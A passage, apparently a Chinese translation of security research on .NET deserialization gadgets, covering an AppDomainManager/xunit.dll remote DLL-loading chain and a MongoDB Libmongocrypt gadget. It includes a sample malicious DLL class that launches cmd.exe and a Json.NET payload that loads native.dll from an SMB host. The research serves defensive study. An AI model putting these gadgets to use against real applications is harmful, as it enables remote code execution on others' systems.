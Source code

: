 代码段 45 AppDomainManager\_AppDomain.CreateObject 方法

所有内容可以总结为几点：

-   攻击者将一个类指向他的 SMB 服务器（或本地路径）。
-   创建 AppDomain 并将其根路径设置为攻击者控制的路径。
-   CreateObject 方法将尝试从 AppDomain 加载 `xunit.dll` 程序集（其中根目录由攻击者控制）。
-   它将尝试调用 `Xunit.Sdk.Executor.ctor(String)` 构造函数。

有趣的是，从 .NET Framework 4 版本开始，当您使用 `Assembly.LoadFrom` 等方法时，它会阻止远程 DLL 加载。但是，通过 AppDomain，如果您控制 AppDomain 路径，仍可以执行远程 DLL 加载。

攻击者可以创建一个包含以下类的示例 DLL：

```plain
namespace Xunit.Sdk 
{ 
    public class Executor 
    { 
        public Executor(string poc) 
        { 
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe"); 
            Process proc = new Process(); 
            proc.StartInfo = psi; 
            proc.Start(); 
        } 
    } 
}
```

代码段 46 Xunit1Executor - sample malicious class stored in attacker's DLL

#### 2.3 MongoDB Libmongocrypt – WindowsLibrary / LinuxLibrary / DarwinLibrary

目标类：`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary / MongoDB.Libmongocrypt.LibraryLoader+LinuxLibrary / MongoDB.Libmongocrypt+DarwinLibrary`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：1.8.0

效果：对于 Windows —— 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语一起使用）。对于 Linux/Mac —— 本地 DLL 加载。

小工具（Json.NET）：

```plain
{ 
    "$type":"MongoDb.Libmongocrypt.LibraryLoader+WindowsLibrary,  
MongoDB.Libmongocrypt, Version=1.8.0.0, Culture=neutral, PublicKeyToken=null", 
    "path":"\\\\192.168.1.100\\native.dll" 
}
```

代码段 47 MongoDB Libmongocrypt WindowsLibrary gadget

描述：
